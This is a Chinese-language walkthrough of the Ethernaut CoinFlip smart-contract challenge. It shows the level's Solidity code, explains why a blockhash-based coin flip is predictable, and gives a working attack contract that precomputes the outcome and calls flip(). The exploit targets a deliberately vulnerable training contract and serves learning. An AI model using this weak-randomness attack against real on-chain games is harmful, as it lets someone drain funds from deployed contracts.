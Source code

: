 3_CoinFlip
=
本关要求
--

  1.This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.  

合约代码
--
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import '@openzeppelin/contracts/math/SafeMath.sol';

    contract CoinFlip {

      using SafeMath for uint256;
      uint256 public consecutiveWins;
      uint256 lastHash;
      uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

      constructor() public {
        consecutiveWins = 0;
      }

      function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));

        if (lastHash == blockValue) {
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
          consecutiveWins++;
          return true;
        } else {
          consecutiveWins = 0;
          return false;
        }
      }
    }  
分析
--
本关要求我们预测对10次硬币的正反  

查看<code>flip</code>方法可知，<code>coinFlip</code>的值决定硬币正反，<code>coinFlip</code>的值通过<code>blockValue.div(FACTOR)</code>计算得到  

<code>blockValue</code>的值为进行预测时当前区块的<code>blockhash</code>  

因为<code>FACTOR</code>的值为常量，所以如果能提前预知<code>blockValue</code>的值，就能预测硬币的正反  

因为有<code>if (lastHash == blockValue)</code>的判断，同一个区块的合约只能提交一次。所以我们采用合约调用的方法，先在我们编写的合约内计算硬币的正反，再调用本关合约，提交预测的结果  

编写攻击合约代码  
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.0.0/contracts/math/SafeMath.sol";


    // 被调用合约接口
    interface CoinFlipInterface {
        function flip(bool _guess) external returns (bool);
    }

    // 攻击合约
    contract CoinFlipAttack{

        using SafeMath for uint256;
        address private addr;
        CoinFlipInterface cf_interface;

        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        constructor(address _addr) public {
            addr = _addr;
            //cf_ins = CoinFlip(_addr);
            cf_interface = CoinFlipInterface(_addr);
        }

    // 使用本关合约相同代码计算硬币正反
        function getSide() private view returns  (bool) {
            uint256 blockValue = uint256(blockhash(block.number.sub(1)));
            uint256 coinFlip = blockValue.div(FACTOR);
            bool side = coinFlip == 1 ? true : false;
            return side;
        }

    // 调用接口实例
        function attack() public {
            bool side = getSide();
            cf_interface.flip(side);
        }

    }
部署本关合约，并查看合约地址  

![图片](https://user-images.githubusercontent.com/35074461/196595386-591c69c0-b59c-459e-b930-5688b0808c10.png)  
  
编译攻击合约，设置Remix部署环境为Injected Provider，连接Metamask。设置部署地址为0x1474ADE39c052Ffb14aA38726c63Fd8972FFb044  
  
![图片](https://user-images.githubusercontent.com/35074461/196595791-c42836e4-471b-402c-8b22-9ac9d129a8be.png)  

点击attack进行合约攻击，查看预测结果，发现攻击成功  
  
![图片](https://user-images.githubusercontent.com/35074461/196593086-7c9df5e9-68d1-4506-bbf0-8f0bca4cb16b.png)  
继续提交直至成功10次，完成本关  
  
![图片](https://user-images.githubusercontent.com/35074461/196594859-f4bf89a1-d10e-4ddb-a385-5b65c870b061.png)  


Ps:
--
<code>blockhash(block.number.sub(1)</code>是一种常见的伪随机数生成漏洞，更多关于智能合约随机数漏洞，可查看[《智能合约中的随机数漏洞》](https://github.com/Gednoveh/SmartContractSecurity/blob/main/%E9%9A%8F%E6%9C%BA%E6%95%B0%E9%A2%84%E6%B5%8B)

